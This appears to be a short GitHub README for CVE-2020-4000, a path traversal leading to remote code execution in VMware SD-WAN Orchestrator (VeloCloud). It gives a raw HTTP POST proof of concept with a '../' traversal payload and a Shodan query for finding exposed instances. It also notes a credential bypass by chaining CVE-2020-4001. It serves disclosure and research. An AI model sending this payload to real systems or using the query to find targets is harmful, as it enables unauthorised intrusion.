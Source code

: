 ## Overview
CVE-2020-4000 is a path traversal vulnerability on VMware SD-WAN Orchestrator (former VeloCloud), which leads to remote code execution.

Although it requires valid credentials, attackers could bypass it by chaining with CVE-2020-4001.

### Bonus for bug bounty hunters
Search for VMware SD-WAN Orchestrator on Shodan:
**http.title:"VeloCloud"**

## Proof of Concept
```
POST /portal/rest/meta/none?test/../../../../../../PoC.js HTTP/1.1
Host: example.com
Content-Length: 0
```

## References
* https://medium.com/realmodelabs/sd-pwn-part-4-vmware-velocloud-the-last-takeover-a7016f9a9175
* https://github.com/RealmodeLabs/SD-PWN/blob/master/vmware_velocloud_orchestrator_rce.py
* https://www.vmware.com/security/advisories/VMSA-2020-0025.html